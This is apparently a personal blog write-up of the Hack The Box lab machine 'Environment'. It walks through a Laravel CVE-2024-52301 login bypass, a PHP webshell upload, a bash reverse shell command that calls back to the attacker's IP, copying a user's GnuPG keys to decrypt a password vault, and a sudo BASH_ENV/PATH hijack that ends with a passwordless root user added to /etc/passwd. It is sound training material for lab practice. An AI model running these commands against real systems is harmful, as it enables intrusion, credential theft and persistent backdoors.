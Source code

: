 ```yaml
---
title: HTB Environment - Writeup
date: 2025-07-13 18:02:00 +0330
categories: [Writeup]
tags: [cve]
description: My writeup of Environment from Hack The Box

---
```


![infocard](assets/img/environment.png)

## - **Introduction**
In order to get a foothold, we will use a weakness in the laravel version to bypass login and upload a reverse shell as the user picture.

## - **Recon & Enum**
##### Port Scanning
Scanning ports using Nmap:
```shell
$ nmap -sC -sV -oN environment_nmap --min-rate=1000 -p- 10.10.11.67
```

```
Nmap scan report for 10.10.11.67
Host is up (0.97s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://environment.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I also started checking for directories with gobuster
```
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://environment.htb/                 
```
From which I discovered `/upload` directory, with a `405 method not allowed` code, a lovely debug enabled laravel page and some beautiful version info! `PHP 8.2.28` and `Laravel 11.30.0`.  
After some research it appears the laravel version is vulnerable to [CVE-2024-52301](https://github.com/Nyamort/CVE-2024-52301), meaning we can manipulate environment variables.
##### Bypass login page
We can see another debug page with useful information in `/login` when we leave the `remember` option empty. From there we learn the production environment is called `preprod`.

![](assets/img/environment_login.png)
![](assets/img/environment_debug.png)

So now we can bypass the login and go to the dashboard.
![](assets/img/environment_preprod.png)

## - **Foothold**

This part is a bit tricky, as you can see the reverse shell payload worked to some extent but the connection closes immediately. I got some help from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md)

![](assets/img/environment_fail.png)

```shell
$ nc -nvlp 9070  
```

``` 
listening on [any] 9070 ...
connect to [10.10.14.126] from (UNKNOWN) [10.10.11.67] 38448
```

I decided to use a webshell and it worked!

![](assets/img/environment_burp_webshell.png)
![](assets/img/environment_id.png)

And the reverse shell.

```shell
$ curl -G "http://environment.htb/storage/files/payload.php" -d "cmd=bash%20-c%20'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.126%2F9070%200%3E%261'"
```

```
www-data@environment:~/app/storage/app/public/files$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## - **User**
We can access `/home/hish` and read the user flag.

```
www-data@environment:/home/hish$ cat user.txt
cat user.txt 
b9c964d*************db3d482ffebe
```

In order to get the password of user `hish`, we have to send `backup/keyvault.gpg` and `.gnupg` to our own machine.

```
www-data@environment:/home/hish$ ls backup
ls backup
keyvault.gpg
www-data@environment:/home/hish$ ls -la
ls -la
total 40
drwxr-xr-x 5 hish hish 4096 Jul 16 19:08 .
drwxr-xr-x 3 root root 4096 Jan 12  2025 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6  2025 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12  2025 .bashrc
drwxr-xr-x 4 hish hish 4096 Jul 16 23:30 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6  2025 .local
-rw-r--r-- 1 hish hish  807 Jan  6  2025 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 backup
-rwxr-xr-x 1 hish hish    8 Jul 16 19:08 exp.sh
-rw-r--r-- 1 root hish   33 Jul 16 18:41 user.txt
```

We will make a `tar` archive of `.gnupg` folder for easy transfer.
```shell
www-data@environment:/home/hish$ tar -cf /tmp/gnupg.tar .gnupg
```

After sending the files to ourself, we should first create a backup of our own `.gnupg` floder and replace it with the victim's file.
Now we can decrypt `keyvault.gpg`.
```
$ gpg --decrypt keyvault.gpg
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> ****************
FACEBOOK.COM -> summerSunnyB3ACH!!
```

And now time for ssh.
```
hish@environment:~$ id
uid=1000(hish) gid=1000(hish) groups=1000(hish),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)
```

## - **Root**

We can see there is one script we can run as sudo. The script uses some binaries without correctly including paths and we are able to manipulate `PATH` variable. Also `env_keep+="ENV BASH_ENV"` will help us pass `PATH` variable through sudo.

```
hish@environment:~$ sudo -l
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV
    BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
hish@environment:~$ cat /usr/bin/systeminfo
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```


After some testing, using `dmesg` works and I'll only include that here.

```
hish@environment:~$ cat dmesg
/bin/bash
```

>Don't forget to make the decoy file executable
{: .prompt-warning }

And a env file to pass as the value of `BASH_ENV`.
```
hish@environment:~$ cat /tmp/new_env.sh 
#!/bin/bash
PATH=/home/hish:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Everything done, now for the fun part!

```
hish@environment:~$ sudo BASH_ENV=/tmp/new_env.sh /usr/bin/systeminfo

### Displaying kernel ring buffer logs (dmesg) ###
root@environment:/home/hish#
root@environment:/home/hish# echo "my_root::0:0:root:/root:/bin/bash" >> /etc/passwd
```

>Note that we can't see the output of commands. Though you can do many things, I just added a `my_root` user.
{: .prompt-info }

```
hish@environment:~$ su my_root
root@environment:/home/hish# cd
root@environment:~# cat root.txt   
53d934d75****************dc9fa85
root@environment:~# 
```

BOOM we got r00t!

![](assets/img/environment_congrats.png)

Thanks for reading!